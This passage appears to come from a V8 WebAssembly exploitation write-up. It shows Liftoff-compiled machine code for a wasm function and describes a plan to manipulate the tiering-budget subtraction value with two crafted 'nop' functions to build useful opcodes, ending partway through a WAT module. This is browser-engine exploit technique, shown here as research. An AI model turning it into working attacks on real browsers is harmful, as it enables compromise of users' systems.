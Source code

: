 ```nasm
--- WebAssembly code ---
name: wasm-function[0]
index: 0
kind: wasm function
compiler: Liftoff
Body (size = 128 = 88 + 40 padding)
Instructions (size = 76)
0x1c6675a9740     0  55                   push rbp
0x1c6675a9741     1  4889e5               REX.W movq rbp,rsp
0x1c6675a9744     4  6a08                 push 0x8
0x1c6675a9746     6  56                   push rsi
0x1c6675a9747     7  4881ec10000000       REX.W subq rsp,0x10
0x1c6675a974e     e  488b462f             REX.W movq rax,[rsi+0x2f]
0x1c6675a9752    12  483b20               REX.W cmpq rsp,[rax]
0x1c6675a9755    15  0f8619000000         jna 0x1c6675a9774  <+0x34>
0x1c6675a975b    1b  488b868f000000       REX.W movq rax,[rsi+0x8f]
0x1c6675a9762    22  8b08                 movl rcx,[rax]
0x1c6675a9764    24  83e91b               subl rcx,0x1b
0x1c6675a9767    27  0f8812000000         js 0x1c6675a977f  <+0x3f>
0x1c6675a976d    2d  8908                 movl [rax],rcx
0x1c6675a976f    2f  488be5               REX.W movq rsp,rbp
0x1c6675a9772    32  5d                   pop rbp
0x1c6675a9773    33  c3                   retl
0x1c6675a9774    34  e867fbffff           call 0x1c6675a92e0  (jump table)
0x1c6675a9779    39  488b75f0             REX.W movq rsi,[rbp-0x10]
0x1c6675a977d    3d  ebdc                 jmp 0x1c6675a975b  <+0x1b>
0x1c6675a977f    3f  e8dcf9ffff           call 0x1c6675a9160  (jump table)
0x1c6675a9784    44  488b75f0             REX.W movq rsi,[rbp-0x10]
0x1c6675a9788    48  ebe5                 jmp 0x1c6675a976f  <+0x2f>
0x1c6675a978a    4a  6690                 nop

Source positions:
 pc offset  position
        34         0  statement
        3f         2  statement

Safepoints (entries = 1, byte size = 10)
0x1c6675a9779     39  slots (sp->fp): 00000000

RelocInfo (size = 0)

--- End code ---
```

During the tests, I couldn't find a way to use the value `0x1b` to create other useful opcodes, so I had another idea. The value of `subl` changes depending on the v8 version and the interactions the code has with the stack. The goal will be to generate two "nop" functions, one with a higher `budget_used` than the other, and use the first function to subtract the `subl` value from the second. To illustrate it better:

```wasm
(module
  (memory 1)
  (func $nop (export "nop")
    i32.const 1
    i32.const 0xdead
    i32.store
  )

  (func (export "nop2")
    nop
    i32.const 0
    i32.const 0xdead
    i32.store
```
